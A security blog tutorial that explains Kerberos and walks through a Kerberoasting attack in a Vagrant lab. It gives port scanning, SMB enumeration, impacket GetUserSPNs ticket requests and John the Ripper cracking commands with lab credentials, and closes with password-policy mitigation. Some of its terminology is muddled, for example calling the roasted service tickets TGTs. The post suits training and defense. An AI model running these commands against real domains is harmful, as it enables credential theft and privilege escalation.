







:slug: roasting-kerberos/
:date: 2019-08-05
:category: attacks
:subtitle: Attacking a DC using kerberoast
:tags: security, windows, vulnerability, credential
:image: cover.png
:alt: Toasting Marshmallow. Photo by hcmorr on Unsplash: https://unsplash.com/photos/qlHRuDvaxL8
:description: Windows Active Directory the most important domain services out there, companies around the world use this for their authentication and authorization services. Windows AD works using the Kerberos protocol, and we can exploit it's functionality to obtain user hashes.
:keywords: Windows, Security, Vulnerability, Hacking, Kerberos, Cracking.
:author: Jonathan Armas
:writer: johna
:name: Jonathan Armas
:about1: Systems Engineer, Security+
:about2: "Be formless, shapeless like water" Bruce Lee

= Roasting Kerberos

+Kerberos+ is a protocol developed by the link:http://web.mit.edu/kerberos/[MIT]
used to authenticate network services,
is built using secret key cryptography
and using a trusted third party server
(named +Authentication Server+).
This protocol authenticates users and services using tickets,
when a client wants to log in
it authenticates with the +Authentication Server+ (+AS+),
which forwards the username to a +Key Distribution Center+ (+KDC+)
and issues a +Ticket-Granting Ticket+ (+TGT+),
this ticket is treated as the user's proof of identity.

The process of how +kerberos+ protocol works is like this:

. The client sends a request to to the +AS+ soliciting a +TGT+,
this request is built using the machine computer time
and encrypting it with the users password hash.
. Then the server verifies the users authentication data,
and responds back to the client with a +TGT+
and a session key for the +TGT+,
since the +AD+ (Active Directory) has the password it can decrypt the request.
. Now the client is able to request service tickets
because it has a valid +TGT+ for the domain.
Here the client sends a request for a service ticket.
. Again the server verifies the validity of the +TGT+,
then it responds back with the service ticket
and a service session key.

+Kerberoast+ attack was discovered by link:https://twitter.com/TimMedin[Tim Medin],
works by requesting Kerberos +TGTs+ to the +AS+
(action that any valid domain user can do),
this tickets are a hash
that we can crack in order to access to the server
with elevated privileges
or to impersonate another user.

In order to do this attack
you will need a valid domain user,
so any employee of an organization can exploit this.
If you are an anonymous attacker on the network,
there is several ways to obtain user credentials,
this includes doing a +MDNS+ spoofing attack on the network
(link:https://github.com/SpiderLabs/Responder[Responder]),
an Evil Twin attack to the wireless network
if they have enterprise security,
a phishing email attack
that uses an enterprise login with the +AD+, among others.

== Kerberoast lab

To set up our lab we are going to use +Hashicorp's+ link:https://www.vagrantup.com/[Vagrant],
you can download the source files [button]#link:kerberoast.zip[here]#

Then run the environment using:

.vagrant up
[source, bash]
----
kerberoast$ vagrant up
----

This will create a +Windows+ machine
with +Active Directory+ installed and configured,
also will set our users to make this attack work,
and set all the things that we will need.

It could take a while so,
we can start to set up our attacking machine.
Here we are using link:https://www.kali.org/[Kali Linux] with +Vagrant+ too,
but you can use whatever +OS+ that you want.

This are the tools that we are going to use:

* link:https://nmap.org/[nmap]
* link:http://netcat.sourceforge.net/[netcat]
* link:https://github.com/ShawnDEvans/smbmap[smbmap]
* link:https://github.com/SecureAuthCorp/impacket[Impacket]
* link:https://github.com/danielmiessler/SecLists[SecLists]
* link:https://github.com/magnumripper/JohnTheRipper[JohnTheRipper]

If you are using +Kali+ the only thing that needs to be installed is +impacket+.
We need to cloned it first:

.clonning impacket
[source, bash]
----
$ git clone https://github.com/SecureAuthCorp/impacket
----

Then go to the folder and install it:

.installing impacket
[source, bash, linenums]
----
$ cd impacket
impacket$ pip install -r requirements.txt
impacket$ python setup.py
----

The +IP+ of our target server is +192.168.56.2+,
the domain is +sky.net+
and our low privilege domain credentials are +kertest:SuperSecure@123!!!+.

We are ready to go.

== Scanning our server

First we need to check the server ports,
we can use +nmap+ or +ncat+ to do it:

.port scannning
[source, bash, linenums]
----
$ nmap 192.168.56.2
$ ncat -vz 192.168.56.2 88
$ ncat -vz 192.168.56.2 445
----

+Kerberos+ runs on +port 88+
and +SMB+ runs on +port 445+,
we are going to use this services
in order to attack the Domain Controller.

Then using +smbmap+ we can check our permissions on the server:

.samba low privileges
[source, bash]
----
$ smbmap -u kertest -p 'SuperSecure@123!!!' -H 192.168.56.2 -d sky.net
----

As we can see, our user has no permissions on the server
but is a valid domain user.

== Kerberoasting

Given that we have an active user
we can exploit +kerberoast+ to retrieve +TGTs+.
This is done by simply running:

.kerberoast attack
[source, bash]
----
impacket/examples$ python GetUserSPNs.py sky.net/kertest -dc-ip 192.168.56.2 -save
----

And when prompted put the password +SuperSecure@123!!!+.

Here we have our +TGTs+, they are +krbtgt hashes+
and there we can view another user on the server +svctest+.
With this we save that user's +TGT+ on a file:

And then crack it using +john+,
a +SecLists+ dictionary and +KoreLogic+ ruleset:

.john cracking
[source, bash]
----
$ john --wordlist=wordlist.txt --rules=KoreLogic hashkerber
----

And is cracked! Then we can check our access
running +smbmap+ again with our new set of credentials:

.samba high privileges
[source, bash]
----
$ smbmap -u svctest -p 'Monkey.123' -d sky.net -H 192.168.56.2
----

As you can see we now have administrative access on our server,
you can try to access it by +RDP+ or retrieve files using +SMB+.
Also you can dump the +SAM+ to get more users and hashes,
this last ones are +NTLMv1+ and easily cracked.

=== Solution

There is no solution to this attack
because it is exploiting the way of how the protocol works,
any user in the domain can exploit this vulnerability
and is only a question of time to crack those credentials.

The way that you can mitigate this
is by using a strong credential policy,
that passwords must be longer than 20 characters,
containing upper and lower cases, symbols, digits
and not easily guessable, preferably passphrases.

This is specially useful when you are dealing with service credentials,
because is the ones that are target the most.
You can also put an alert when someone is logged in
with your most critical and high privileged users.

If you want more information about strong credentials
you can check our link:../../rules/#credentials[rules]
about it.
